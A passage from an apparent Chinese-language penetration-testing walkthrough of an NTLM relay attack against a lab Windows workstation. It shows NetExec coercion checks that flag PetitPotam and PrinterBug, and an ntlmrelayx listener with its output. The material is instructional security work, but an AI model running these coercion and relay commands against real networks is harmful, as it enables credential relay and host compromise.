 - 易受攻击的 Windows Server 或 Workstation  
  
- 工具：
```
ntlmrelayx
```

  
、
```
PetitPotam
```

  
、
```
dnstool
```

  
、
```
NetExec (nxc)
```

  
  
## 攻击步骤  
  
**1. 侦察与强制检查**  
  
验证 SMB 签名状态和强制漏洞：  

```
┌──(root㉿rbtsecurity)-[~]
└─$ nxc smb 192.168.115.185 -u scarter -p Passw0rd -M coerce_plus
SMB         192.168.115.185 445    WKSTN-3          [*] Windows 10 / Server 2019 Build 19041 x64 (name:WKSTN-3) (domain:shield.local) (signing:False) (SMBv1:False)
SMB         192.168.115.185 445    WKSTN-3          [+] shield.local\scarter:Passw0rd
COERCE_PLUS 192.168.115.185 445    WKSTN-3          VULNERABLE, PetitPotam
COERCE_PLUS 192.168.115.185 445    WKSTN-3          VULNERABLE, PrinterBug
COERCE_PLUS 192.168.115.185 445    WKSTN-3          VULNERABLE, PrinterBug
COERCE_PLUS 192.168.115.185 445    WKSTN-3          VULNERABLE, MSEven
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOBmcNHajDZG8XFybfXictjeRFeHRTCbK31qVlicjfbXibV8rpDDPxztcEYr7z3c3jm09F79ibpOia2dibw/640?wx_fmt=png&from=appmsg "")  
  
**2. 启动 SMB 中继监听器**  
  
我们准备使用 
```
ntlmrelayx
```

  
 来拦截 NTLM 身份验证并将其中继回目标：  

```
┌──(root㉿rbtsecurity)-[~]
└─$ impacket-ntlmrelayx -t wkstn-3.shield.local -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies


[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client DCSYNC loaded..
```
